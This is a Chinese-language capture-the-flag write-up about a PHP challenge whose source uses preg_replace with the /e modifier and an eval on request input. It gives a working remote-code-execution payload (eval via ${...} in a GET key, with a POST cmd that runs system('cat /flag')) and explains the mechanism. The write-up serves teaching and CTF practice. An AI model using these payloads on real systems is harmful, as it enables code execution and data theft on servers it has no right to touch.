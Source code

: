 > 解密 base64 加密之后的字符串拿到下一步的源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
> 这一步的考点参考 [preg_replace RCE](https://xz.aliyun.com/t/2557)
> Payload

```php
GET：\W*=${eval($_POST[cmd])} 或者 \D*={${eval($_POST[cmd])}}
POST：cmd=system('cat /flag');
```


## 拓展：preg_replace 与代码执行
> 测试代码
```php
<?php
    header("Content-Type: text/plain");

    function complexStrtolower($regex, $value) {
        return preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
    }

    foreach ($_GET as $regex => $value) {
        echo complexStrtolower($regex, $value).PHP_EOL;
    }
```
> 这段代码实际上就是 `preg_replace` 使用了 `/e` 模式导致可以代码执行，而且该函数的第一个和第三个参数都是可以控制的，当 `preg_replace` 函数在匹配到符号正则的字符串时会将替换字符串当做代码来执行，然而这里的第二个参数却固定为 `'strtolower("\\1")' 字符串`

> 上面的命令执行相当于 `eval('strtolower("\\1");')` 的结果，当中的 `\\1` 实际上就是 `\1`，而 `\1` 在正则表达式中有自己的含义，[参考链接](https://www.w3cschool.cn/zhengzebiaodashi/regexp-metachar.html)
